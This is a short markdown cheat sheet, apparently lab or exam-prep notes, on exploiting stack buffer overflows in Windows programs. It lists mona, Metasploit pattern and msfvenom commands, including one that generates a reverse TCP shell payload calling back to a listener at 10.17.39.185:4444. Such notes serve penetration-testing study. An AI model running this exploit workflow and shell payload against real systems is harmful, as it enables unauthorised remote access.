 # Buffer Overflow

> Shahrukh Tramboo | February 26th, 2022

--------------------------------------

**Mona Configuration**

```bash
!mona config -set workingfolder c:\mona\%p
```

**create pattern**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```


**getting pattern offset**
```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 35714234
```
or
```bash
!mona findmsp -distance 600
```

**create a bytearray**

using bpython
```
bytearray(range(1,256))
```

**Finding a Jump Point**

```bash
!mona jmp -r esp -cpb "\x00"
```

**Generate Payload**
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.17.39.185 LPORT=4444 EXITFUNC=thread -b "\x07\x2d\x2e\xa0" -f py -v shellcode
```


**Finding Bad Characters**

```bash
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```bash
for x in range(1, 256):
  print("\\x" + "{:02x}".format(x), end='')
print()
```

Make a note of the address to which the ESP register points and use it in the following mona command:

```bash
!mona compare -f C:\mona\oscp\bytearray.bin -a <address>
```


